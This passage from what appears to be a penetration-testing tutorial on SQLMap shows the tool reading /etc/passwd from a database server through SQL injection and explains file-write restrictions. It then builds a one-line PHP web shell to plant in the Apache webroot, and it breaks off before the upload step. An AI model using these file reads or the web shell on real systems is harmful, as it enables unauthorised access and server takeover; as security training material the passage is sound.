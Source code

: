 ```shell
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/

```

As we can see, SQLMap said `files saved` to a local file. We can `cat` the local file to see its content:

```shell
cat ~/.sqlmap/output/www.example.com/files/_etc_passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...

```

We have successfully retrieved the remote file.

* * *

## Writing Local Files

When it comes to writing files to the hosting server, it becomes much more restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server, and hence get code execution and take over the server.

This is why modern DBMSes disable file-write by default and need certain privileges for DBA's to be able to write files. For example, in MySql, the `--secure-file-priv` configuration must be manually disabled to allow writing data into local files using the `INTO OUTFILE` SQL query, in addition to any local access needed on the host server, like the privilege to write in the directory we need.

Still, many web applications require the ability for DBMSes to write data into files, so it is worth testing whether we can write files to the remote server. To do that with SQLMap, we can use the `--file-write` and `--file-dest` options. First, let's prepare a basic PHP web shell and write it into a `shell.php` file:

```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php

```

Now, let's attempt to write this file on the remote server, in the `/var/www/html/` directory, the default server webroot for Apache. If we didn't know the server webroot, we will see how SQLMap can automatically find it.
